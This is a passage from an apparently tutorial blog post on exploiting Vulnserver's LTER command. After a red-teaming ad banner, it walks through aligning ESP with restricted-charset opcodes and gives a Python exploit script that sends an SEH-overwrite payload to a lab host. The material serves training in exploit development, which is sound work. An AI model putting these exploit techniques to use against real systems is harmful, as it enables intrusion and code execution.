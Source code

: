 3. `ADD` that offset to `ESP`, so it effectively points to the new
    location.

<div>
<cta-banner
buttontxt="Read more"
link="/solutions/red-teaming/"
title="Get started with Fluid Attacks' Red Teaming solution right now"
/>
</div>

Let’s do that:

<div class="imgblock">

![Align ESP](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331203/blog/vulnserver-lter-seh/align-esp1_rwmput.gif)

</div>

Note that all the resulting bytes are in our allowed charset. Now update
our exploit with those instructions:

``` python
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * (3554 - 4) +
    # JNZ SHORT +0x10: Will jump if ZF is 1
    b'\x75\x08' +
    # JZ SHORT +0x6: If the previous jump didn't happen (ZF is 0), jump!
    b'\x74\x06' +
    # 6250172B    5F                          POP EDI
    # 6250172C    5D                          POP EBP
    # 6250172D    C3                          RETN
    struct.pack('<L', 0x6250172B) +
    b'C' * 2 +
    # Align stack pointer
    b'\x54' +               # PUSH ESP
    b'\x58' +               # POP EAX
    b'\x66\x05\x53\x14' +   # ADD AX,0x1453
    b'\x50' +               # PUSH EAX
    b'\x5c' +               # POP ESP
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```
